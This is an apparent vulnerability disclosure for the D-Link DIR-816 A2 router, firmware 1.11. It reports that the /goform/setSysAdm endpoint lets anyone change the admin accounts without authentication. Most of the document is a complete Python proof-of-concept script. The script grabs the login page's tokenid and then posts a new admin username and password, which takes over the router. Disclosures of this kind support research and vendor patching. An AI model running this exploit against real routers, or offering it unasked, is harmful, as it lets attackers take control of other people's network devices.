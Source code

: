 # D-Link DIR-816 A2 Edit Web And System Account Without Authentication

**Vender**：D-Link

**Firmware version**: 1.11

**Hardware version**: DIR-816 A2

**Exploit Author**: lbp@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Vul detail ##

Attacker can use a API URL "/goform/setSysAdm" to edit web and system account without authentication.

## POC

![](poc.png)
v
Change web and system user password:
```python
# !/usr/bin/env python2
# coding=utf-8
import requests


def get_token_id(target_ip):
    """

    :param target_ip: router ip address.
    :return: tokenid
    """
    url = "http://{}/dir_login.asp".format(target_ip)
    rsp = requests.get(url, allow_redirects=False)
    rsp_list = rsp.text.split()
    tokenid = None
    for i in range(len(rsp_list)):
        if 'name="tokenid"' in rsp_list[i]:
            tokenid = int(rsp_list[i + 1].split('=')[1][1:-1])
            break
    return tokenid


def send_from_request(target_ip, from_name, data):
    """

    :param target_ip: router ip address.
    :param from_name: from_name to request
    :param data: post data in json format.
    :return:
    """
    url = "http://{}/goform/{}".format(target_ip, from_name)
    rsp = requests.post(url, data=data, allow_redirects=False, timeout=1)
    return rsp.text


if __name__ == '__main__':
    target_ip = "192.168.0.1"
    token_id = get_token_id(target_ip)
    if token_id:
        username = "Admin"
        password = "zaq12wsx"
        from_name = "setSysAdm"
        from_data = {"admuser": username, "admpass": password, "tokenid": token_id}
        send_from_request(target_ip, from_name, from_data)

```
